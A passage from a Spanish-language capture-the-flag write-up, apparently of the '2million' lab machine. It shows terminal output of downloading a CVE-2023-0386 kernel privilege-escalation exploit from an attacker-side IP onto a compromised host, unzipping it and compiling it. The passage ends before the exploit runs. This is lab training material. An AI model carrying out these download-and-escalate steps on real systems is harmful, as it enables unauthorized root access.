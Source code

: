 Desde el equipo comprometido, nos descargaremos el comprimido y lo descomprimiremos.

```bash
admin@2million:/tmp$ wget 10.10.16.3/gzzcoo.zip
--2025-02-16 23:02:04--  http://10.10.16.3/gzzcoo.zip
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 11579 (11K) [application/zip]
Saving to: ‘gzzcoo.zip’

gzzcoo.zip                  100%[==========================================>]  11.31K  --.-KB/s    in 0s      

2025-02-16 23:02:05 (30.4 MB/s) - ‘gzzcoo.zip’ saved [11579/11579]

admin@2million:/tmp$ unzip gzzcoo.zip 
Archive:  gzzcoo.zip
737d8f4af6b18123443be2aed97ade5dc3757e63
   creating: CVE-2023-0386-master/
  inflating: CVE-2023-0386-master/Makefile  
  inflating: CVE-2023-0386-master/README.md  
  inflating: CVE-2023-0386-master/exp.c  
  inflating: CVE-2023-0386-master/fuse.c  
  inflating: CVE-2023-0386-master/getshell.c  
   creating: CVE-2023-0386-master/ovlcap/
 extracting: CVE-2023-0386-master/ovlcap/.gitkeep  
   creating: CVE-2023-0386-master/test/
  inflating: CVE-2023-0386-master/test/fuse_test.c  
  inflating: CVE-2023-0386-master/test/mnt  
  inflating: CVE-2023-0386-master/test/mnt.c 
```

Accederemos al directorio correspondiente y ejecutaremos `make all` para compilar el proyecto.

```bash
admin@2million:/tmp$ cd CVE-2023-0386-master/
admin@2million:/tmp/CVE-2023-0386-master$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
      |                     |     |
      |                     int   off_t {aka long int}
      |                    %ld
fuse.c:107:19: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘size_t’ {aka ‘long unsigned int’} [-Wformat=]
  107 |     printf("size %d\n", size);
      |                  ~^     ~~~~
      |                   |     |
      |                   int   size_t {aka long unsigned int}
      |                  %ld
fuse.c: In function ‘main’:
fuse.c:214:12: warning: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
  214 |     while (read(fd, content + clen, 1) > 0)
      |            ^~~~
      |            fread
fuse.c:216:5: warning: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
  216 |     close(fd);
      |     ^~~~~
      |     pclose
fuse.c:221:5: warning: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
```